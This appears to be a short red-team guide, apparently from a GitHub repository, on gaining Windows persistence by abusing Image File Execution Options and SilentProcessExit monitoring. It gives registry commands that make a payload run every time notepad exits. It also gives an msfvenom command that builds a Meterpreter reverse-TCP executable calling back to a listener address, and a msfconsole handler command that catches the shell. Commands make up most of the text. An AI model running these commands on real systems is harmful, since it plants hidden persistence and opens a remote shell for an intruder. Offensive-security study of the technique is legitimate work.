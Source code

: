 # Image File Execution Options (IFEO)

Image File Execution Options is a Windows registry key which enables developers to attach a debugger to an application and to enable “GlobalFlag” for application debugging. This behavior of Windows opens the door for persistence since an arbitrary executable can be used as a debugger of a specific process or as a “MonitorProcess“. In both scenarios code execution will achieved and the trigger will be either the creation of a process or the exit of an application

### GlobalFlag

The hexadecimal value 0x200 in the “GlobalFlag” registry key enables the silent exit monitoring for the notepad process

```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
```

### MonitorProcess

payload execute when notepad exit

```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "E:\Privilege-Escalation\notepad+.exe"
```

### The ReportingMode

registry key enables the Windows Error Reporting process (WerFault.exe) which will be the parent process of the “MonitorProcess” notepad+.exe.

```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
```

#### notepad+.exe (payload for persistent)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f exe > /var/www/html/notepad+.exe
```

#### listener

```bash
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```